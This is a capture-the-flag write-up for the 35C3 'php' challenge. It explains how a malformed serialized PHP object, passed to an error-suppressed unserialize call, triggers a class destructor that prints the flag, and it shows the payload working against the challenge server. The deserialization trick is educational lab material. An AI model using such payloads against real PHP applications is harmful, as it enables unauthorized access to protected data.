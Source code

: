 ```yaml
---
layout: post
title: php
category: 35c3ctf
---
```


# php
>PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.  
>Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: `nc 35.242.207.13 1`

The tarball contains the following php code:

```php
<?php

$line = trim(fgets(STDIN));
$flag = file_get_contents('./flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);
throw new Exception('Well that was unexpected…');
echo $a;
```

and the service running at `35.242.207.13 1` verifies that it's running the above code.

```bash
➜ nc 35.242.207.13 1
test input
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

From the source code and challenge description, it's obvious this is a PHP deserialization challenge. Our goal is clear, serialize some PHP code that will force the destructor of `B` to be called, echo-ing the flag to our console, _before_ the exception is thrown.

So how exactly do you call a class destructor in PHP? Well, the destructor will be called when the all references to the object are freed or when the script terminates properly - i.e. without any thrown exceptions. Since the exception will be thrown directly after the unserialize call, we can't rely on the script properly terminating. We must call the `__destruct()` function ourselves, ensuring it's done prior the the exception.

One last thing to note before we try any exploits - the `@` symbol before `unserialize()`. For those unfamiliar, when `@` is prepended to a function, any error messages that function may produce will be completely ignored (see: [PHP Error Controls Operators](http://php.net/manual/en/language.operators.errorcontrol.php)). If we were to ignore this symbol we may still get the flag, but we'd miss the nuance of why we were able to get it.

## Solution
From our static analysis, we have a solid idea on the attack vector for this challenge. First let's verify our above analysis by creating a simple serialized object.

```bash
➜ php -a
Interactive shell

php > $flag = "35C3_test_flag_";
php > class B {
php { function __destruct() {
php { global $flag;
php { echo $flag;
php { }
php { }
php > $xpl = new B;
php > echo serialize($xpl);
O:1:"B":0:{}
php >
```
PHP serialized objects are structured as a key-value pairs. Breaking down our serialized object, we have an object `B` (of name length `1`), with `0` properties. For more information, see: [PHP Serialization](http://www.phpinternalsbook.com/classes_objects/serialization.html) and [Fuzzing Unserialize](https://www.evonide.com/fuzzing-unserialize/).

With this knowledge, we can abuse the error suppression to create and destroy an object without causing the script to terminate. By sending `@unserialize()` a bad serial, e.g. `O:1:"B":1:{}` or `O:1:"B":0:{b}`, we force the code to instantiate a new object `B` and then free the object (i.e. call the destructor) due to a bad serial exception. The `@` symbol will force the code to ignore the exception and continue executing.

```bash
➜ php nc 35.242.207.13 1
O:1:"B":1:{}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
 thrown in /home/user/php.php on line 16
 ```
